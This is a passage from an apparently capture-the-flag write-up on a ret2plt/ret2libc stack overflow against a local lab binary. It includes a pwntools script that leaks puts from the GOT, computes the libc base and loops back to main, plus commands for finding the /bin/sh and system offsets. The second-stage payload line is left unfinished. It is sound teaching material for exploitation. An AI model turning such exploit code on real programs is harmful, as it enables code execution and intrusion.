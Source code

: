 Now we have our **base address**. We can just do `Ret2libc` attack. But here is one problem program exits after entering the payload, it just asks for input so we cant send payload next time for `Ret2libc` thats why we have to add `main` in end of payload. If we do this it will again return to `main` function.

```python
payload = cyclic(40) + pack(pop_rdi) + pack(elf.got.puts) + pack(puts) + pack(elf.sym.main)
```


```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2plt')

io = process()

#ret2plt
pop_rdi = 0x00000000004012c3
puts = elf.sym.puts

payload = cyclic(40) + pack(pop_rdi) + pack(elf.got.puts) + pack(puts) + pack(elf.sym.main)

io.sendline(payload)

#recv leak
leak = io.recvlines(2)[1]
leak_int = unpack(leak, 'all')
libc_base = leak_int - 0x0000000000087be0
print(hex(libc_base))

#ret2libc

payload = cyclic(40) + pack(pop_rdi) + 

io.interactive()
```

Now after `pop_rdi` we need to call `/bin/sh` we need its address, which is addition of `libc_base` and `offset` of `/bin/sh` we can find offset of `/bin/sh` using this command:

```bash
❯ strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep -i /bin/sh
 1cb42f /bin/sh
```

We get offset `1cb42f`. Do same for system function also. Since its function not string like `/bin/sh` we should use `objdump`.

```bash
❯ objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep 'system' 
0000000000058750  w   DF .text	000000000000002d  GLIBC_2.2.5 system
```
